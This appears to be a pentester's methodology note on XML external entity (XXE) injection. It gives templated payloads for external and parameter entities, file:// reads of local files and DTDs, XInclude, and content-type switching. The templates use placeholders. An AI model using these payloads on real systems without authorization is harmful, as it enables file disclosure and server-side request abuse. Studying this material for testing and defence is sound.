 # XXE
- Looking for fully controllable XML requests
- If partially controllable, look at [XInclude](#XInclude)

**General Format:**
```xml
<?xml version="1.0" encoding="UTF-8"?>  
<stockCheck><productId>381</productId></stockCheck>
```

## Custom Entities
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!-- Defining entity &myentity with string val -->
<!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>
<blah>
	&myentity;  <!-- Will return "my entity val" -->
</blah>
```

## Concatenating Entities
`<!DOCTYPE foo [ <!ENTITY path "<PATH>" > <!ENTITY url SYSTEM "<URL>&path;" ]>` -> `&url;`

## Useful Character HTML Encodings
**NOTE: REMEMBER TO ENCODE x TIMES IN x'th NESTED STRING**
**`&#x26;#x25;` -> `&#x25` -> `&`**
- % -> `&#x25;`
- ' -> `&#x27;`
- " -> `&#x22;`
- & -> `&#x26;`
## General Entities
- `<` - `&lt;` -> `<!ENTITY lt "&#38;#60;">``
- `>` - `&gt;` -> `<!ENTITY gt "&#62;">`
- `&` - `&amp;` -> `<!ENTITY amp "&#38;#38;">`
- `'` -  `&apos;` -> `<!ENTITY apos "&#39;">`
- `"` -  `&quot;` -> `<!ENTITY quot "&#34;">`


## External Entities
### External Requests
- `<!ENTITY <NAME> SYSTEM "<URL>" [NDATA <TYPE>]>` -> `&<NAME>;`
- `<!ENTITY <NAME> PUBLIC "failed" "<URL> [NDATA <TYPE>]"` -> `&<NAME>;`

### Directory Traversal
`<!DOCTYPE foo [ <!ENTITY <NAME> SYSTEM "file://<PATH>" > ]>` -> `&<NAME>;`

## Parameter Entities
### External Requests
`<!DOCTYPE foo [ <!ENTITY % <NAME> SYSTEM "<URL>" [NDATA <TYPE>]> %<NAME>; ]>`

### Directory Traversal
`<!DOCTYPE foo [ <!ENTITY % <NAME> SYSTEM "file://<PATH>" > %<NAME>; ]>`

## Existing DTD
*Exploit -> [Hybrid DTDs](3.%20Methodology/3.2%20Exploitation/XXE.md#Hybrid%20DTDs)*
**Find Library being used and see if DTD (probably) exists**
**Google!**
**Reference [here](https://packages.debian.org/search?searchon=contents&keywords=.dtd&mode=path&suite=stable&arch=any) and [here](https://packages.ubuntu.com/search?suite=disco&arch=any&mode=filename&searchon=contents&keywords=.dtd)**
**Methodology [here](https://www.gosecure.net/blog/2019/07/16/automating-local-dtd-discovery-for-xxe-exploitation/)**
```
<!DOCTYPE foo [  
<!ENTITY % local_dtd SYSTEM "file://<DTD PATH>">

<!-- Make query. Will Error if DTD does not exist -->
%local_dtd;  
]>
```

# XInclude
*Exploit -> [XInclude](3.%20Methodology/3.2%20Exploitation/XXE.md#XInclude)*
**For partially controlled documents**
**Fairly restrictive, but good to try**

# File Upload
*Exploit -> [File Upload](3.%20Methodology/3.2%20Exploitation/XXE.md#File%20Upload)*
**Upload XML, XInclude, or XML-based formates (DOCX, SVG, etc) to perform XXE**
- Try uploading XML as per above, and see what happens

# Modified Content Type
**Rare, but good to know. If confirmed, XXE as normal**
```
POST /action HTTP/1.0  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 7  
  
foo=bar
```

Is equivalent to:

```
POST /action HTTP/1.0  
Content-Type: text/xml  
Content-Length: 52  
  
<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```